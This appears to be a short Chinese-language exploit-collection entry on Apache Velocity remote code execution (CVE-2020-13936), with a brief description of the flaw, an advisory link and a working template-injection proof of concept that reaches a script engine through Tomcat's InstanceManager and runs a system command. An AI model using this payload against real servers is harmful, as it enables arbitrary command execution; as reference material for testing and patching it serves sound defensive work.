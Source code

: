 # Apache Velocity 远程代码执行 CVE-2020-13936

# Apache Velocity 远程代码执行 CVE-2020-13936

## 漏洞描述

Velocity Uberspector无法阻止访问java.lang.ClassLoader类加载器方法。在VelocityView的上下文中使用Velocity模板时，能够修改模版的攻击者可以使用与运行Servlet容器的帐户相同的权限执行任意Java代码或运行任意系统命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity

## 漏洞复现

poc：

```
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')")}
```


